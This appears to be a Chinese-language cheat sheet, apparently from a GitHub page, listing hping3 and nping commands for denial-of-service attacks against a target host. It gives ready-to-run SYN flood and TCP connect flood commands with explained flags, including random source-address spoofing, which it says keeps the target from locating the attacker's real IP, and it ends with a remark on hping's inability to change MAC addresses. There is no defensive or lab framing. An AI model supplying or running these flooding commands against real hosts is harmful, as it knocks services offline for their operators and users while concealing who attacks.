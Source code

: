 -p：目标端口

--flood：尽可能快的发送包且不显示过程

--rand-source：使用随机的IP地址，也可用-a或--spoof隐藏主机名

#### SYN洪水攻击

```
hping3 -S --flood -V VICTIM_IP

```

#### TCP连接攻击

```
nping --tcp-connect --rate=90000 -c 900000 -q VICTIM_IP

```



#### 使用hping3进行DoS攻击：

```
 hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com
```

- -c：发送数据包的个数
- -d：每个数据包的大小
- -S：发送SYN数据包
- -w：TCP window大小
- -p：目标端口，你可以指定任意端口
- –flood：尽可能快的发送数据包
- –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

简单的SYN洪水攻击：

```
 hping3 -S --flood -V testsite.com
```

TCP连接攻击：

```
 nping --tcp-connect -rate=90000 -c 900000 -q testsite.com
```

**Hping 的缺点是不能修改发送包的MAC地址，因此在做地址欺骗的时候，IP地址虽然改变了，但是MAC地址并没有改变，还是本机的MAC地址。**

